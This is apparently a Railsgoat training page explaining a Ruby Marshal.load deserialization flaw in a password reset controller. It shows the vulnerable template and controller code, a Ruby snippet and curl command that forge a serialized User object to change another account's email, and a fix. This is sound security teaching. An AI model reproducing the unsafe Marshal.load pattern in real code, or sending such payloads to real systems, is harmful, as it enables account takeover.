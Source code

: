 ## Remote Code Execution

[Remote Code Execution](https://www.owasp.org/index.php/Code_Injection)

[Ruby Marshal Security Considerations](http://ruby-doc.org/core-2.1.3/Marshal.html#module-Marshal-label-Security+considerations)

Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. 

# Bug

Railsgoat includes a remote code execution vulnerability through Ruby's Marshal.load vulnerability. Ruby's Marshal.load also the deserialization of arbitrary objects. The password reset controller includes a deserialization vulnerability. During the forgot password flow, after the user clicks on the reset email link, the application verifies the token then adds a Marshaled user object which is posted during the password reset. 

Within reset_password.html.erb
```
          <div class="content">
            <%= hidden_field_tag 'user', Base64.encode64(Marshal.dump(@user)) %>
            <%= label_tag "Enter Password" %>
            <%= password_field_tag :password, params[:password], {:class => "input input-block-level"} %>
            <%= label_tag "Confirm Password" %>
            <%= password_field_tag :confirm_password, params[:confirm_password], {:class => "input input-block-level"} %>
          </div>
```
Within password_resets_controller.rb
```
  def reset_password
    user = Marshal.load(Base64.decode64(params[:user])) unless params[:user].nil?

    if user && params[:password] && params[:confirm_password] && params[:password] == params[:confirm_password]
      user.password = params[:password]
      user.save!
      flash[:success] = "Your password has been reset please login"
      redirect_to :login
    else
      flash[:error] = "Error resetting your password. Please try again."
      redirect_to :login
    end
  end
```

# Solution

### Remote Code Execution - ATTACK
```
# Dump an ActiveRecord object with the needed attributes for a User.
# This can be done in the railsgoat project or from another Rails 3.2 project by
# creating a User class with the required fields (id, user_id, created_at, updated_at) 
# and the additional fields you want to change.

# Assuming a table named 'users' with id, user_id, created_at, updated_at, and email 
# as columns exists
class User < ActiveRecord::Base; end
user = User.new(id: 5, user_id: 5)
user.save
user.email = 'new-email@domain.tld'

# Loading an existing user if in the railsgoat rails console will also work
# user = User.last
# user.email = "new-email@domain.tld"

Base64.strict_encode64(Marshal.dump(user))
# => "BAhvOglVc2VyEDoQQGF0...
```
`curl --data "user=<base64_encoded_object>&password=password&confirm_password=password" http://localhost:3000/password_resets`

### Remote Code Execution - SOLUTION

Applications should never use Marshal load with user input. If possible Marshal load should not be used in an application. Other forms of serialization can be used such as json.

# Hint

What does the password reset screen have in the source?